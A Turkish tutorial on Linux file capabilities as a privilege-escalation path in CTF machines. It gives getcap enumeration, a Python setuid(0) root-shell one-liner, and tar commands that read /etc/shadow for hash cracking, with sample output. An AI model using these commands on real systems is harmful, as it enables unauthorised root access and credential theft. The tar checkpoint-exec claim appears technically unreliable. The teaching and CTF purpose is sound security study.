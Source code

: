 ### **1\. Teori: Linux Yetenekleri (Capabilities) Nedir ve Neden Önemlidir?**

Geleneksel UNIX izin modelinde, iki seviye vardır: **ayrıcalıksız kullanıcı** (regular user) ve **tam yetkili kullanıcı** (root). Bir işlemin ağ soketi açmak gibi ayrıcalıklı bir işlem yapması gerektiğinde, ona SUID biti ile tam `root` yetkisi vermek gerekirdi. Bu, "bir kapıyı açmak için binanın anahtarını vermek" gibidir; aşırı riskli ve gereksizdir.

**Capabilities** ise bu sorunu çözer. `root` kullanıcısının sahip olduğu tüm güçleri, daha küçük ve yönetilebilir "yeteneklere" böler.

- `CAP_NET_BIND_SERVICE`: 1024'ün altındaki portlara bağlanma yeteneği.
- `CAP_SETUID`: İşlemin kullanıcı kimliğini (UID) değiştirme yeteneği.
- `CAP_DAC_READ_SEARCH`: Dosya okuma ve dizin arama izinlerini baypas etme yeteneği.

Bir sistem yöneticisi, bir programa tam `root` yetkisi vermek yerine, sadece işini yapması için gereken spesifik yeteneği (`capability`) atayabilir. Bu, sistemin daha güvenli olmasını sağlar ama bizim gibi siber güvenlik uzmanları için de yeni bir saldırı yüzeyi oluşturur. 🎯

**Neden SUID Aramalarında Gözden Kaçar?** Senin de belirttiğin gibi en önemli nokta bu: `find / -perm -u=s` gibi komutlar sadece SUID bitine sahip dosyaları arar. Yetenekler (Capabilities) dosyanın izin bitlerinde değil, **genişletilmiş özniteliklerinde (extended attributes)** saklanır. Bu yüzden bu klasik komutlarla `vim` gibi bir dosyayı bulamazsın. Bu da onu daha gizli ve etkili bir vektör yapar.

* * *

### **2\. Pratik: Keşif ve Sömürü**

#### **Adım 1: Keşif (Enumeration)**

Sistemdeki tüm dosyaları tarayarak atanmış yetenekleri bulmamız gerekiyor. Bunun için `getcap` aracını kullanırız.

Bash

```
getcap -r / 2>/dev/null
```

Bu komutu biraz daha açalım:

- `getcap`: Yetenekleri okuyan ana komutumuz.
- `-r`: "Recursive" yani özyinelemeli. Belirtilen dizinden (`/`) başlayarak tüm alt dizinleri tarar.
- `/`: Kök dizin. Tüm sistemi taramak için buradan başlarız.
- `2>/dev/null`: Bu çok kritik bir kısım. `2>` standart hata (stderr) akışını yönlendirir. `/dev/null` ise "kara delik" olarak bilinen, üzerine yazılan her şeyi yok eden özel bir dosyadır. Ayrıcalıksız bir kullanıcı olarak tüm sistemi tararken "Permission denied" (İzin reddedildi) gibi binlerce hata mesajı alırız. Bu komut, bu hata mesajlarını ekranda göstermek yerine doğrudan çöpe atarak bize sadece temiz bir çıktı sunar.

**Örnek Çıktı:** Komutu çalıştırdığında şöyle bir şey görebilirsin:

```
/usr/bin/python3.9 = cap_setuid+ep
/usr/bin/vim.basic = cap_dac_read_search+ep
```

#### **Adım 2: Analiz ve Sömürü Planı**

Bu çıktıyı yorumlayalım:

- `python3.9` dosyası `cap_setuid` yeteneğine sahip. Bu, bu scriptin kendi kullanıcı kimliğini (UID) değiştirebileceği anlamına gelir. Hedefimiz `root` (UID=0) olmak olduğu için bu çok tehlikelidir! 💣
- `vim.basic` dosyası `cap_dac_read_search` yeteneğine sahip. Bu da onun sistemdeki tüm dosyaları okuyabileceği anlamına gelir. Örneğin `/etc/shadow` dosyasını okuyup parolaları kırmaya çalışabiliriz.

Şimdi GTFObins'e gitme zamanı. GTFObins, bu gibi durumlarda bir ikili dosyayı (binary) kötüye kullanarak nasıl yetki yükseltebileceğimizi gösteren komutları barındıran bir hazinedir.

1.  GTFObins sitesine git.
2.  Arama kutusuna `python` yaz.
3.  Fonksiyonlar listesinden "Capabilities"i bul.

Orada `cap_setuid` yeteneği için şu komutu göreceksin:

Python

```
./python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

- `-c '...'`: Python'a tek satırlık bir komut çalıştıracağını söyler.
- `import os`: İşletim sistemi fonksiyonlarını kullanmak için `os` modülünü içeri aktarır.
- `os.setuid(0)`: İşte sihirli kısım burası! `cap_setuid` yeteneğini kullanarak mevcut işlemin kullanıcı kimliğini `0` yani `root` olarak ayarlar.
- `os.system("/bin/bash")`: Yeni `root` kimliğiyle bir `bash` kabuğu başlatır.

* * *

### **3\. Pratik Senaryo: Adım Adım Yetki Yükseltme**

Hadi bunu baştan sona bir senaryo ile canlandıralım. Bir CTF makinesindesin ve `user` olarak kabuk aldın. Amacın `root` olmak.

1.  **Keşif:** İlk olarak SUID dosyalarını aradın ama işe yarar bir şey bulamadın. Sıradaki adayın Yetenekler (Capabilities).
    
    Bash
    
    ```
    user@ctf-box:~$ getcap -r / 2>/dev/null
    /usr/bin/tar = cap_dac_read_search+ep
    ```
    
    Bingo! `tar` komutunun tüm dosyaları okuma yeteneği var.
    
2.  **Planlama:** `tar` ile `/etc/shadow` gibi hassas dosyaları okuyabilirsin. `shadow` dosyasını okuyup kendi makinenize kopyaladıktan sonra John the Ripper veya Hashcat ile parolaları kırmayı deneyebilirsin.
    
3.  **GTFObins Kontrolü:** GTFObins'e gidip `tar`'ı arıyorsun ve "Capabilities" bölümünü kontrol ediyorsun. Orada `cap_dac_read_search` yeteneğiyle dosya okumak için bir komut buluyorsun:
    
    Bash
    
    ```
    ./tar -cf /dev/null /etc/shadow --checkpoint=1 --checkpoint-action=exec=/bin/cat /etc/shadow
    ```
    
    Bu komut, `tar`'ın checkpoint özelliğini kötüye kullanarak aslında bir dosyayı arşivlemek yerine başka bir komutu (`cat /etc/shadow`) çalıştırır. Ancak daha basit bir yol da var:
    
4.  **Uygulama:** `tar`'ın kendisi doğrudan dosya okuyabilir.
    
    Bash
    
    ```
    user@ctf-box:~$ /usr/bin/tar -cvf shadow.tar /etc/shadow
    /etc/shadow
    ```
    
    Bu komut, `/etc/shadow` dosyasını `shadow.tar` adlı bir arşive kaydeder. `cap_dac_read_search` yeteneği sayesinde okuma iznin olmasa bile bu işlem başarılı olur.
    
5.  **Sonuç Alma:** Şimdi `shadow.tar` arşivini açıp içindeki hash'leri alabilirsin.
    
    Bash
    
    ```
    user@ctf-box:~$ tar -xvf shadow.tar
    /etc/shadow
    user@ctf-box:~$ cat etc/shadow
    root:$6$.....:18628:0:99999:7:::
    daemon:*:18628:0:99999:7:::
    ...
    ```
    
    Artık `root` kullanıcısının parola hash'ine sahipsin!
    
